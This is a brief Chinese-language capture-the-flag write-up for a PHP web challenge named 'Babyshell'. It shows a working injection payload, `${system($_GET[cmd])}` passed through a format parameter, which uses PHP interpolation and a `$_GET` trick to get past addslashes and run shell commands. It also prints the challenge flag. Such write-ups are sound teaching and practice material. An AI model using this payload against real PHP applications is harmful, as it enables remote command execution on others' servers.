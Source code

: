 ## Babyshell
hackmd 連結 : [BabyShell](https://hackmd.io/@yeyeye618/HkKzHd5seg)
熟悉的名稱
![image](https://hackmd.io/_uploads/rJhXrO5jxx.png)


熟悉的介面
![image](https://hackmd.io/_uploads/Sk1tqu9sgx.png)


熟悉的 TimeModel
![image](https://hackmd.io/_uploads/S1fur_9ilg.png)

看起來都是一樣的打法
用 ${} 做 f string 注入
而且要用 $_GET[] 做 addslash 的 bypass
```
/?format=${system($_GET[cmd])}&cmd=ls
```
![image](https://hackmd.io/_uploads/rklTSd5jgl.png)
成功

撈 flag
![image](https://hackmd.io/_uploads/rkY48Oqsgg.png)
flag: `is1abCTF{m4yb3_y0u'r3_n07_4_b4by}`
